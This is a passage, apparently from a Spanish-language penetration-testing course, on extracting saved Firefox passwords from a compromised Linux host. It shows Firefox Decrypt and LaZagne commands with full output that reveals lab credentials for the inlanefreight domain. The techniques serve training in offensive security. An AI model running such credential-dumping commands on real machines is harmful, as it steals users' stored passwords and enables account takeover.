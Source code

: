 ```r
  "potentiallyVulnerablePasswords": [],
  "dismissedBreachAlertsByLoginGUID": {},
  "version": 3
}
```

La herramienta [Firefox Decrypt](https://github.com/unode/firefox_decrypt) es excelente para descifrar estas credenciales y se actualiza regularmente. Requiere Python 3.9 para ejecutar la última versión. De lo contrario, debe usarse `Firefox Decrypt 0.7.0` con Python 2.

### Decrypting Firefox Credentials

```r
python3.9 firefox_decrypt.py

Select the Mozilla profile you wish to decrypt
1 -> lfx3lvhb.default
2 -> 1bplpd86.default-release

2

Website:   https://testing.dev.inlanefreight.com
Username: 'test'
Password: 'test'

Website:   https://www.inlanefreight.com
Username: 'cry0l1t3'
Password: 'FzXUxJemKm6g2lGh'
```

Alternativamente, `LaZagne` también puede devolver resultados si el usuario ha utilizado el navegador compatible.

### Browsers - LaZagne

```r
cry0l1t3@unixclient:~$ python3 laZagne.py browsers

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

------------------- Firefox passwords -----------------

[+] Password found !!!
URL: https://testing.dev.inlanefreight.com
Login: test
Password: test

[+] Password found !!!
URL: https://www.inlanefreight.com
Login: cry0l1t3
Password: FzXUxJemKm6g2lGh


[+] 2 passwords have been found.
For more information launch it again with the -v option

elapsed time = 0.2310788631439209
```